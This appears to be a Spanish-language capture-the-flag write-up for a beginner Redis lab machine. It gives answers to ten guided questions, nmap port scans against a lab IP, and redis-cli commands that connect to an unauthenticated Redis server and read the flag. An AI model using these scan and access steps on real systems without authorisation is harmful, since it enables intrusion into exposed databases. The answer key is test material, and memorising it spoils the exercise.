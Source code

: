#veryeasy #startingpoint #linux #redis

--------
# Guided Mode

1)¿Qué puerto TCP está abierto en la máquina? 
	6379

2)¿Qué servicio se está ejecutando en el puerto que está abierto en la máquina? 
	redis

3)¿Qué tipo de base de datos es Redis? Elija entre las siguientes opciones: (i) Base de datos en memoria, (ii) Base de datos tradicional
	in-memory database

4)¿Qué utilidad de línea de comandos se utiliza para interactuar con el servidor Redis? Introduzca el nombre del programa que introduciría en el terminal sin ningún argumento. 
	redis-cli

5)¿Qué bandera se utiliza con la utilidad de línea de comandos Redis para especificar el nombre de host? 
	-h

6)Una vez conectado a un servidor Redis, ¿qué comando se utiliza para obtener la información y las estadísticas sobre el servidor Redis? 
	info

7)¿Cuál es la versión del servidor Redis que se utiliza en el equipo de destino? 
	5.0.7
	Respuesta sacada del escaneo de nmap

8)¿Qué comando se utiliza para seleccionar la base de datos deseada en Redis? 
	select NumeroDeLaBaseDeDatos

9)¿Cuántas claves hay en la base de datos con índice 0? 
	4
	
10)¿Qué comando se utiliza para obtener todas las claves de una base de datos? 
	keys *

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.48.19
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.129.48.19 -oG allports
extractPorts allports
nmap -sCV -p6379 10.129.48.19 -oN target
```
![[Redeemer1.png]]

![[Redeemer2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`6379`[[redis]]

-----
# Intrusion con [[redis]]

Nos conectamos a la base de datos
```
redis-cli -h 10.129.48.19 -p 6379
```

Con el comando `info keyspace` vimos que base de datos estaban
	![[Redeemer3.png]]
Seleccionamos la base de datos 0 con el comando ``select 0``, despues visualizamos todas las keys con `keys *` y con `get flag` sacamos la flag de la maquina

![[Redeemer4.png]]

